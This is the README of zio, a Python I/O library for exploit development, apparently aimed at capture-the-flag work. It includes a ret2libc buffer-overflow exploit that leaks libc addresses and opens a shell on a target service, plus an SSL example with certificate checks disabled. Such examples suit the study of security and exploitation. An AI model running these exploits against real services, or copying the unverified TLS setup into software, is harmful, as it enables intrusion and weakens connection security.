 
# zio

[![Build Status](https://travis-ci.org/zTrix/zio.png)](https://travis-ci.org/zTrix/zio) [![support-version](https://img.shields.io/pypi/pyversions/zio)](https://img.shields.io/pypi/pyversions/zio)

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

is_local = True

if is_local:
    io = zio('./buggy-server')            # used for local pwning development
else:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.read_until(b'Welcome Banner')
io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## Advantage

 - Self contained single file installation, no extra dependency required. Copy it as you go and fire with no pain even without internet access.
 - Support both python2 and python3, no need to worry about the python version installed on some weired jump server provided by unknown.
 - Easy to learn and use.

If you want advanced features such as ELF parsing and more, try [pwntools](https://github.com/Gallopsled/pwntools).

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Working Environment

 - Linux or OSX
 - Python 2.6, 2.7, 3.x

for windows support, a minimal version(socket-io only) [mini_zio](./mini_zio.py) is provided.

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/zTrix/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip install zio
```

## Examples
 
```python
from zio import *

is_local = True

if is_local:
    io = zio('./buggy-server')
else:
    io = zio((pwn.server, 1337))

for i in range(1337):
    io.writeline(b'add ' + str(i))
    io.read_until(b'>>')

io.write(b"add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + b"A" * 49 + b"\nshow\n")
io.read_until(b'A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
io.write(b'info ' + payload + b"\nshow\nexit\n")
io.read_until(b">>")
# We've got a shell;-)
io.interact()
```

## Document

### bytes vs unicode

zio works at `bytes` level. All params and return value should be bytes. (Although some methods support unicode for compatibility and fault tolerance)

The recommended practice is to use b'xxx' everywhere, which is supported by both python2 and python3 without ambiguity.

### about line break and carriage return

Just don't read b'\n' or b'\r', use `read_line()` instead

### example for SSL wrapped socket

```
hostname = 'xxx.com'
host = '111.22.33.44'
port = 31337
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ssl_sock = context.wrap_socket(s, server_hostname=hostname)
ssl_sock.connect((host, port))

io = zio(ssl_sock)

...
```

### Play with cmdline

Act like netcat

```
$ printf 'GET / HTTP/1.0\r\n\r\n' | ./zio.py baidu.com 80
```

Unhex

```
$ echo '3334350a' | ./zio.py -d unhex -w none -r none -i pipe -o pipe --show-input=0 cat
345
```

hexcat some file

```
$ cat somefile | ./zio.py -e hex -w none -r none -i pipe -o pipe --show-input=0 cat
```

show file in string repr

```
$ cat somefile | ./zio.py -e repr -w none -r none -i pipe -o pipe --show-input=0 cat
```

log vim key sequences and underlying io

```
$ zio --debug=zio.log vim
```

### Other fun usage

Talk with vim using code.

```
In [1]: from zio import *

In [2]: io = zio('vim', stdin=TTY, stdout=TTY)

In [3]: io.writeline(b'ihello world')
ihello world
Out[3]: 13

In [4]: io.writeline(b'\x1b:w hand_crafted_vim_file.txt')
w hand_crafted_vim_file.txt
Out[4]: 30

In [5]: io.writeline(b':q')
:q
Out[5]: 3

In [6]: io.exit_status()
Out[6]: 0

In [7]: !cat hand_crafted_vim_file.txt
hello world
```

You can even talk with vim for prefix and then interact by hand to continue normal action.

## Thanks (Also references)

 - [pexpect](https://github.com/pexpect/pexpect) borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/

[zio]:https://github.com/zTrix/zio
